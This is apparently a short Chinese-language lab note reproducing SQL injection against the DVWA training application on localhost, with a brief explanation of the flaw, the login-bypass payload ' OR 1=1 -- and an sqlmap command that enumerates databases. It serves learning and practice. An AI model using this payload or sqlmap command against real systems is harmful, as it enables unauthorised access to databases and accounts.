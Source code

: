 # SQL注入
# SQL 注入漏洞复现

## 🌐 靶场环境
- DVWA (Security Level: Low)
- 数据库：MySQL
- 工具：Burp Suite + sqlmap

## 🔍 漏洞原理
用户输入的数据没有经过过滤，直接拼接到 SQL 语句中，导致注入。

## 🛠️ 复现过程
1. 输入 `' OR 1=1 --` 到用户名字段  
2. 成功登录管理员账号

## 🧰 自动化利用
```bash
sqlmap -u "http://localhost/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=xxx" --dbs

## 📕 参考文献
https://portswigger.net/web-security/sql-injection